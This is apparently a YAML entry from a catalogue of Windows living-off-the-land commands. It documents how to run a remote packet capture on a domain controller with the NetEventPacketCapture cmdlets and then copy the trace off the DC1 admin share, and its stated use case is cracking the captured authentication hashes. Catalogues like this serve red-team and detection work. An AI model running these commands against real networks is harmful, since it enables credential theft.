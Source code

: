 ```yaml
---
Name: New-NetEventSession
Description: Creates a network event session
Updated: 2023-07-01
Toolsets:
  - Builtin
  - CIMSession
Commands:
  - Command: |
      New-NetEventSession -Name sess -CimSession $s -LocalFilePath "C:\Windows\Temp\Trace.etl" -CaptureMode SaveToFile
      Add-NetEventPacketCaptureProvider -SessionName sess -CimSession $s -Level 4 -CaptureType Physical
      Start-NetEventSession -Name sess -CimSession $s
      Get-NetEventSession -Name sess -CimSession $s
      
      Stop-NetEventSession -Name sess -CimSession $s
      Remove-NetEventSession -Name sess -CimSession $s
      Move-Item \\DC1.ad.bitsadmin.com\C$\Windows\Temp\Trace.etl C:\tmp
    Description: Sniff traffic
    Usecases:
      - Sniff authentication traffic on a domain controller and locally crack the hashes
    Function: Network
    Comments:
      - 'Create CimSession `$s` using [New-CimSession](../../Cmdlets/New-CimSession/)'
      - 'Convert resulting `.etl` file to `.pcapng` using `etl2pcapng`'
      - 'PowerShell Module: `NetEventPacketCapture`'
    MitreAttack:
      - T1047
Resources:
  - https://github.com/microsoft/etl2pcapng
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```

